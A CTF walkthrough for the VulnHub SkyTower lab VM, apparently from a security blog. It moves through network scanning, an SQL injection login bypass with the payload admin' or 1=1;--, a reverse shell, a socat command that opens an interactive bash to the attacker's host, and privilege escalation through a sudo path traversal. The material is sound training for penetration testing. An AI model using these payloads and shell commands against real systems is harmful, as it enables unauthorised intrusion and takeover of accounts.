

## VM Description

This CTF was designed by Telspace Systems for the CTF at the ITWeb Security Summit and BSidesCPT (Cape Town). The aim is to test intermediate to advanced security enthusiasts in their ability to attack a system using a multi-faceted approach and obtain the "flag".

This VM isn't too difficult and is a good training material for the OSCP certification.

Download: [SkyTower](https://www.vulnhub.com/entry/skytower-1,96/)

Author: [Telespace](https://www.vulnhub.com/author/telspace,90/)

## Enumeration

We configure the VM in bridge mode. In order to determine its assigned IP, we run the below command:

```bash
$arp-scan -I wlan0 -l 
```

### Service Enumeration

```bash
$nmap -sV -sC -p- -oA nmap/nmap 192.168.1.31
```

<div class="row">
  <div class="col-md-6">
    <table class="table table-bordered">
      <thead>
        <tr>
          <th>Open port</th>
          <th>Service</th>
          <th>Version</th>
        </tr>
      </thead>
      <tbody>
        <tr>
          <td>80</td>
          <td> Apache </td>
          <td>2.2.22</td>
        
        </tr>
        <tr>
         <td> 3128 </td>
          <td> squid </td>
          <td> 3.1.20 </td>
        </tr>
       </tbody>
    </table>
  </div>
</div>

#### Web Server Directory Enumeration 

```bash
$gobuster dir -u http://192.168.1.31 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .php,.txt -o gobuster-80.txt
```

Gobuster finds login.php page. Let's see what is there. 


It's always a good idea to check a web page source code. 


In this case, it looks like it's a basic login page; probably coded by a junior developer. This is good news for us because it is likely vulnerable to an SQL injection. Let's check!

We attempt to login using admin' or 1=1;-- as username and admin as password. Based on the response, the web server is vulnerable to an SQL injection but there is some kind of filtering that we will need to bypass. 


## Exploit

Every time we need to bypass some kind of filtering, we need to check which characters are allowed and which are not. Burp Repeater can come in handy in this case as it allows us to easily send a modified payload without going through the web interface each time.

We can determine that the following parameters are filtered as they are removed from the response:

```
select, or, =,--
```

There are a lot of guides on how to bypass these filters including this [article](https://www.exploit-db.com/papers/17934) in exploit-db. 


Excellent. We can now read the message addressed to user John. 


Since port 22 is filtered based on our Nmap scans, we need to proxy the connection through the SQUID server. This can be easily achieved by adding this line at the end of /etc/proxychains.conf. 

```
http	192.168.1.31 3128
```


The connection is automatically closed but let's see if we can still execute commands.


Another way to go is to upload a reverse shell to the tmp directory and execute it. 

We first need to generate a payload with Msfvenom:


We can now upload the file using scp:


We set-up a Netcat listener and execute the file after changing its permissions:



Great. The first we need to do once we have a simple reverse shell is to upgrade to a fully interactive TTY. 

This [article](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/) by ropnop details different methods to do that. Since python is not installed on the target, we can use socat to upgrade our shell.  

We setup a listener on Kali: 

```bash 
$socat file:`tty`,raw,echo=0 tcp-listen:4444
```
And then execute the below command on the target machine:

```bash
$socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.1.34:4444
```


## Privilege Escalation

#### Escalating to user Sara

We run the automated [LinEnum.sh](https://github.com/rebootuser/LinEnum) script to find attack vectors that can allow us to escalate to root. 

The script found Mysql credentials (root:root). Awesome. Let's connect to mysql and see what information we have. 


To connect to the database, we run:

```bash
$mysql -u root -p
```


We attempt to SSH as William but the password is incorrect. However, Sara's password is valid and we can SSH as Sara as we did with John. 

#### Escalating to user root

One of the first things to check, even before running the automatic script, is to determine if the user we are connected as is in the sudo group by executing [sudo -l].


User Sara can run /bin/cat /accounts/* and /bin/ls /accounts/* as root without supplying a password.

Since accounts is appended with *, we can perform directory traversal and read any file on the system.


We have the root user password. Let's connect as root. Mission complete :) 


 
